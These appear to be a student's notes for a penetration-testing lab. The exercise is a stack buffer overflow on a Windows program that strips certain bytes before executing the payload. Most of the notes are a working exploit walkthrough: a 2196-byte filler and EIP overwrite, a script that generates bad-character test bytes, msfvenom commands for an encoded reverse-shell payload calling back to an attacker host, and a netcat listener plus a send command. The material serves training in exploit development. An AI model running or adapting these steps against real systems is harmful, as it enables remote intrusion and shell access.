 
# 11.2.8.3
So you can generate shellcode, but can you generate shellcode that will work in a real program?  
This time, you will need to both generate the shellcode as well as test that shellcode for bad characters to make sure it will execute as you expect.  
The _bad-characters-1_ program also **takes shellcode as input**, but it is a little more finicky;  
the binary seems to be **removing some specific characters** from the buffer stored before executing the _**CALL EBX**_ **which executes your payload**.  
To assist with testing and practice on your Windows client, you can download **bad-characters-windows-1.exe** from the VM #1 web server on port 80.  
Once ready, **connect to VM #1 port 4444 via netcat** and get a shell by sending a **raw 32-bit msfvenom-generated reverse-shell payload** that does not contain the specified bad characters.  
Then read _flag.txt_ to get the flag.


###### Find EIP & filler:
	--- **msfvenom-pattern_create** didn't work. Had to manually use binary tree analysis  
  
filler = ‘A’ * 2196  
eip = ‘B’ * 4  
  
buffer = filler + eip + .......  
  

###### Find bad characters:

Generate raw characters:
```bash
python2 -c "print ''.join([chr(i) for i in range(1,256)])" > exploit.txt
```
 
 **OR**

```python
!#/usr/bin/env python2.7  
  
shellcode = (  
"\x01\x02\x03\x04\x05\x06\x07\x08\x09\x0a\x0b\x0c\x0d\x0e\x0f\x10"  
"\x11\x12\x13\x14\x15\x16\x17\x18\x19\x1a\x1b\x1c\x1d\x1e\x1f\x20"  
"\x21\x22\x23\x24\x25\x26\x27\x28\x29\x2a\x2b\x2c\x2d\x2e\x2f\x30"  
"\x31\x32\x33\x34\x35\x36\x37\x38\x39\x3a\x3b\x3c\x3d\x3e\x3f\x40"  
"\x41\x42\x43\x44\x45\x46\x47\x48\x49\x4a\x4b\x4c\x4d\x4e\x4f\x50"  
"\x51\x52\x53\x54\x55\x56\x57\x58\x59\x5a\x5b\x5c\x5d\x5e\x5f\x60"  
"\x61\x62\x63\x64\x65\x66\x67\x68\x69\x6a\x6b\x6c\x6d\x6e\x6f\x70"  
"\x71\x72\x73\x74\x75\x76\x77\x78\x79\x7a\x7b\x7c\x7d\x7e\x7f\x80"  
"\x81\x82\x83\x84\x85\x86\x87\x88\x89\x8a\x8b\x8c\x8d\x8e\x8f\x90"  
"\x91\x92\x93\x94\x95\x96\x97\x98\x99\x9a\x9b\x9c\x9d\x9e\x9f\xa0"  
"\xa1\xa2\xa3\xa4\xa5\xa6\xa7\xa8\xa9\xaa\xab\xac\xad\xae\xaf\xb0"  
"\xb1\xb2\xb3\xb4\xb5\xb6\xb7\xb8\xb9\xba\xbb\xbc\xbd\xbe\xbf\xc0"  
"\xc1\xc2\xc3\xc4\xc5\xc6\xc7\xc8\xc9\xca\xcb\xcc\xcd\xce\xcf\xd0"  
"\xd1\xd2\xd3\xd4\xd5\xd6\xd7\xd8\xd9\xda\xdb\xdc\xdd\xde\xdf\xe0"  
"\xe1\xe2\xe3\xe4\xe5\xe6\xe7\xe8\xe9\xea\xeb\xec\xed\xee\xef\xf0"  
"\xf1\xf2\xf3\xf4\xf5\xf6\xf7\xf8\xf9\xfa\xfb\xfc\xfd\xfe\xff")  
  
filler = 'A' * 2196  
eip = 'B' * 4  
buffer = filler + eip + shellcode + '\n'  
with open("exploit.txt", 'wt') as f:  
    f.write(buffer)
```
	python2 script can be used to convert **msfvenom -f c** to raw

*If download exploit on Win & it doesn't have the **.txt**, don't add an extension as it messes things up.
  
Send bad char exploit.txt to Win & open app w/ Immunity.  
Search for bad chars.  
  
Search for JMP ESP for eip  
  
  
Generate shellcode:  
```bash
msfvenom -p windows/shell_reverse_tcp LHOST=192.168.119.156 LPORT=443 EXITFUNC=thread -f raw -e x86/shikata_ga_nai -b "<bad chars>" > shellcode
```

```bash
msfvenom -p windows/exec CMD="cmd.exe" EXITFUNC=thread -f raw -b "<bad chars>" > shellcode
```

 
*IF using **-f c**, convert to raw w/ above ^^ python script  
 
Start up listener (when using **shell_reverse_tcp**):
```bash
nc -nlvp 443
```


Connect to target vm & send shellcode:
```bash
cat exploit.txt - | nc 192.168.156.10 4444  
Ctrl + C
```